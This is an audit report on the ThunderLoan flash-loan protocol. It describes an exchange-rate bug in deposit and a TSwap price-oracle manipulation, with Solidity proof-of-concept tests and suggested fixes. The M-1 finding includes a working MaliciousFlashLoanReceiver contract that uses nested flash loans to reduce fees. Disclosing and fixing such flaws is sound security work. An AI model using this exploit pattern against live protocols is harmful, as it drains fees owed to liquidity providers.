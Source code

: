 ### [H-1] Erroneous `ThunderLoan::updateExchangeRate` in the `deposit` function causes protocol to think it has more fees than it really does, which blocks redemption and incorrectly sets the exchange rate.

**Description:**

In the ThunderLoan system, the `exchangeRate` is responsible for calculating the exchange rate between assetTokens and underlying tokens. In a way, it's responsible for keeping track of how many fees to give a liquidity providers.

However, the `deposit` function, updates this rate, without collecting any fees!

```javascript
 function deposit(
        IERC20 token,
        uint256 amount
    ) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) /
            exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

@>      uint256 calculatedFee = getCalculatedFee(token, amount);
@>      assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:**

There are several impacts to this bug:

1. The `redeem` function is blocked, because the protocol thinks the owed tokens is more than it has.
2. Rewards are incorrectly calculated, leading to liquidity providers potentially getting way more or less than deserved.

**Proof of Concept:**

1. LP deposited
2. User takes out a flash loan
3. It's now impossible to redeem the LP tokens

<details>
<summary>PoC</summary>

Place the following into `ThunderLoadTest.t.sol`

```javascript
 function testRedeemAfterLoan() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(
            tokenA,
            amountToBorrow
        );
        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(
            address(mockFlashLoanReceiver),
            tokenA,
            amountToBorrow,
            ""
        );
        vm.stopPrank();

        uint256 amountToRedeem = type(uint256).max;

        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
        vm.stopPrank();
    }
```

</details>

**Recommended Mitigation:**

Remove the incorrectly updated exchange rate lines from the `deposit` function.

```diff
function deposit(
        IERC20 token,
        uint256 amount
    ) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) /
            exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

### [M-1] Using TSwap as price oracle leads to price and oracle manipulation attacks

**Description:**

The TSwap protocol is a constant product formula based AMM. The price of a token is determined by how many reserves are on either side of the pool. Because of this, it's easy for malicious users to manipulate the price of a token by buying or selling a large amount of the token in the same transaction, essentially ignoring protocol fees.

**Impact:**

Liquidity providers will drastically reduced fees for providing liquidity.

**Proof of Concept:**

The following all happens in 1 transaction:

1. User takes a flash loan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`. During the flash loan, they do the following:
   1. User sells 1000 `tokenA`, tanking the price.
   2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`.
      1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flash loan is substantially cheaper than the first.

```javascript
  function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
        return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```

    3. The user then repays the first flash loan, and then repays the second flash loan.

<details>
<summary>PoC</summary>

place the following into `ThunderLoanTest.t.sol`

```javascript
 function testOracleManipulation() public {
        // set up contracts
        thunderLoan = new ThunderLoan();
        tokenA = new ERC20Mock();
        proxy = new ERC1967Proxy(address(thunderLoan), "");
        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));

        // create a TSwap Dex between tokenA and WETH
        address tswapPool = pf.createPool(address(tokenA));
        thunderLoan = ThunderLoan(address(proxy));

        thunderLoan.initialize(address(pf));

        // Fund TSwap

        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(address(tswapPool), 100e18);
        weth.mint(liquidityProvider, 100e18);
        weth.approve(address(tswapPool), 100e18);
        BuffMockTSwap(tswapPool).deposit(
            100e18,
            100e18,
            100e18,
            block.timestamp
        );
        vm.stopPrank();

        // Fund ThunderLoan

        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);

        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 1000e18);
        tokenA.approve(address(thunderLoan), 1000e18);
        thunderLoan.deposit(tokenA, 1000e18);
        vm.stopPrank();

        // We are going to take out 2 flash loans
        // 1. To nuke the price of tokenA/Weth on TSwap
        // 2. To show that doing so greatly reduces the fees we pay on ThunderLoan

        uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18);
        console.log("Normal Fee Cost: ", normalFeeCost);
        // 0.296147410319118389

        uint256 amountToBorrow = 50e18;
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(
            address(tswapPool),
            address(thunderLoan),
            address(thunderLoan.getAssetFromToken(tokenA))
        );

        vm.startPrank(user);
        tokenA.mint(address(flr), 100e18);
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 attackFee = flr.feeOne() + flr.feeTwo();
        // 0.214167600932190305
        console.log("Attack Fee Cost: ", attackFee);
        assert(attackFee < normalFeeCost);
    }

```

also this contract to `ThunderLoanTest.t.sol`

```javascript
contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    address repayAddress;
    BuffMockTSwap tswapPool;
    bool attacked;
    uint256 public feeOne;
    uint256 public feeTwo;

    constructor(
        address _tswapPool,
        address _thunderLoan,
        address _repayAddress
    ) {
        tswapPool = BuffMockTSwap(_tswapPool);
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
        attacked = false;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /*params*/
    ) external returns (bool) {
        if (!attacked) {
            feeOne = fee;
            attacked = true;
            uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(
                50e18,
                100e18,
                100e18
            );
            IERC20(token).approve(address(tswapPool), 50e18);
            tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(
                50e18,
                wethBought,
                block.timestamp
            );

            thunderLoan.flashloan(address(this), IERC20(token), amount, "");

            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(address(repayAddress), amount + fee);
        } else {
            feeTwo = fee;
            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(address(repayAddress), amount + fee);
        }
        return true;
    }
}

```

</details>

**Recommended Mitigation:**

Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle.
